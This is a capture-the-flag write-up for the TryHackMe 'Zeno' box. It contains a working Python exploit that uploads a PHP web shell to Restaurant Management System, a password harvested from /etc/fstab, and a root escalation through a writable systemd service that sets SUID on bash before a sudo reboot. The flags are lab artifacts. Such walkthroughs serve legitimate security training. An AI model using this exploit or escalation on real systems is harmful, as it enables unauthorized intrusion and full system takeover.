







## TL;DR

In this challenge we exploit `RCE` on the restaurant management system, located at `/rms`.
Then, we find the credentials of user `edward` inside `/etc/fstab`. Lastly, we move to root using `service modification`, and `reboot` as root.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh and port `12340` with apache http service. 
```bash
PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 62 OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 09:23:62:a2:18:62:83:69:04:40:62:32:97:ff:3c:cd (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDakZyfnq0JzwuM1SD3YZ4zyizbtc9AOvhk2qCaTwJHEKyyqIjBaElNv4LpSdtV7y/C6vwUfPS34IO/mAmNtAFquBDjIuoKdw9TjjPrVBVjzFxD/9tDSe+cu6ELPHMyWOQFAYtg1CV1TQlm3p6WIID2IfYBffpfSz54wRhkTJd/+9wgYdOwfe+VRuzV8EgKq4D2cbUTjYjl0dv2f2Th8WtiRksEeaqI1fvPvk6RwyiLdV5mSD/h8HCTZgYVvrjPShW9XPE/wws82/wmVFtOPfY7WAMhtx5kiPB11H+tZSAV/xpEjXQQ9V3Pi6o4vZdUvYSbNuiN4HI4gAWnp/uqPsoR
|   256 33:66:35:36:b0:68:06:32:c1:8a:f6:01:bc:43:38:ce (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEMyTtxVAKcLy5u87ws+h8WY+GHWg8IZI4c11KX7bOSt85IgCxox7YzOCZbUA56QOlryozIFyhzcwOeCKWtzEsA=
|   256 14:98:e3:84:70:55:e6:60:0c:c2:09:77:f8:b7:a6:1c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOKY0jLSRkYg0+fTDrwGOaGW442T5k1qBt7l8iAkcuCk
12340/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: We&#39;ve got some trouble | 404 - Resource not found
| http-methods: 
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
```

I added `zeno.thm` to my `/etc/hosts`

### RCE on restaurant management system located on /rms

I started with fuzzing on port `12340`:
```bash
┌──(agonen㉿kali)-[~/thm/Zeno]
└─$ ffuf -u 'http://zeno.thm:12340/FUZZ' -w /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt         

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://zeno.thm:12340/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

rms                     [Status: 301, Size: 234, Words: 14, Lines: 8, Duration: 170ms]
                        [Status: 200, Size: 3897, Words: 120, Lines: 15, Duration: 164ms]
:: Progress: [220545/220545] :: Job [1/1] :: 241 req/sec :: Duration: [0:16:26] :: Errors: 0 ::
```

I went to `/rms`, we can see this is restaurant management system



I checked online and found `RCE` vulnerability, here is the exploit [https://www.exploit-db.com/exploits/47520](https://www.exploit-db.com/exploits/47520). we'll use this script, which I modified using chatGPT:
```py
#!/usr/bin/env python3

import requests
import sys
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

print("""
    _  _   _____  __  __  _____   ______            _       _ _
  _| || |_|  __ \\|  \\/  |/ ____| |  ____|          | |     (_) |
 |_  __  _| |__) | \\  / | (___   | |__  __  ___ __ | | ___  _| |_
  _| || |_|  _  /| |\\/| |\\___ \\  |  __| \\ \\/ / '_ \\| |/ _ \\| | __|
 |_  __  _| | \\ \\| |  | |____) | | |____ >  <| |_) | | (_) | | |_
   |_||_| |_|  \\_\\_|  |_|_____/  |______/_/\\_\\ .__/|_|\\___/|_|\\__|
                                             | |
                                             |_|
""")

print("Credits : All InfoSec (Raja Ji's) Group")

if len(sys.argv) != 2:
    print("[+] Usage : python3 rms-rce.py http://localhost/")
    sys.exit(1)

url = sys.argv[1]

if not url.startswith("http"):
    print("[!] Please include http:// or https://")
    sys.exit(1)

print("[+] Restaurant Management System Exploit, Uploading Shell")

target = url.rstrip("/") + "/admin/foods-exec.php"

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "multipart/form-data; boundary=---------------------------191691572411478",
    "Connection": "close",
    "Upgrade-Insecure-Requests": "1"
}

data = """-----------------------------191691572411478
Content-Disposition: form-data; name="photo"; filename="reverse-shell.php"
Content-Type: application/octet-stream

<?php echo shell_exec($_GET["cmd"]); ?>
-----------------------------191691572411478
Content-Disposition: form-data; name="Submit"

Add
-----------------------------191691572411478--
"""

response = requests.post(
    target,
    headers=headers,
    data=data,
    verify=False
)

if response.status_code == 200:
    print("[+] Shell Uploaded Successfully!")
    print("[+] Shell URL:")
    print(url.rstrip("/") + "/images/reverse-shell.php?cmd=id")
else:
    print("[-] Upload failed!")
    print("Status Code:", response.status_code)
```

Now, let's execute the script:
```bash
python3 rms-rce.py http://zeno.thm:12340/rms/
```

we can get our `RCE`:
```bash
┌──(agonen㉿kali)-[~/thm/Zeno]
└─$ curl 'http://zeno.thm:12340/rms/images/reverse-shell.php?cmd=id'                                                                                
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
```



We'll paste the payload from penelope.

### Find credentials of edward inside /etc/fstab

I executed linpeas, and found out that `/etc/fstab` is intersting.


We can see on the comments line the password `FrobjoodAdkoonceanJa`
```bash
bash-4.2$ cat /etc/fstab

#
# /etc/fstab
# Created by anaconda on Tue Jun  8 23:56:31 2021
#
# Accessible filesystems, by reference, are maintained under '/dev/disk'
# See man pages fstab(5), findfs(8), mount(8) and/or blkid(8) for more info
#
/dev/mapper/centos-root /       xfs     defaults        0 0
UUID=507d63a9-d8cc-401c-a660-bd57acfd41b2       /boot   xfs     defaults        0 0
/dev/mapper/centos-swap swap    swap    defaults        0 0
#//10.10.10.10/secret-share     /mnt/secret-share       cifs    _netdev,vers=3.0,ro,username=zeno,password=FrobjoodAdkoonceanJa,domain=localdomain,soft 0 0
```

I tried to login to user `edward` via ssh with this password, and it worked



we can grab the user flag:
```bash
[edward@zeno ~]$ cat user.txt 
THM{070cab2c9dc622e5d25c0709f6cb0510}
```

### Privilege Escalation to Root using service modification and reboot as root

The linpeas shows us we can write to `/etc/systemd/system/zeno-monitoring.service`.



So, we can edit this service, and then wait for some miracle that this service will get triggered.
When I checked for sudo permissions, I saw we have sudo on `/usr/sbin/reboot`:
```bash
[edward@zeno ~]$ sudo -l
Matching Defaults entries for edward on zeno:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User edward may run the following commands on zeno:
    (ALL) NOPASSWD: /usr/sbin/reboot
```

So, by this way we can trigger the initialization of the zeno service.
This will be our new service:
```bash
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/usr/bin/chmod +s /bin/bash

[Install]
WantedBy=multi-user.target
```

Now, after modifying the file, let's reboot the machine, and login via ssh later



We'll give it 2 minutes or so, and then trying to log back in.
```bash
┌──(agonen㉿kali)-[~/thm/Zeno]
└─$ ssh edward@zeno.thm
edward@zeno.thm's password: 
Last login: Sun Jan 18 15:37:05 2026
-bash-4.2$ ls -la /bin/bash
-rwsr-sr-x. 1 root root 964536 Apr  1  2020 /bin/bash
-bash-4.2$ bash -p
bash-4.2# id
uid=1000(edward) gid=1000(edward) euid=0(root) egid=0(root) groups=0(root),1000(edward) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
bash-4.2# cd /root
bash-4.2# cat root.txt 
THM{b187ce4b85232599ca72708ebde71791}
```


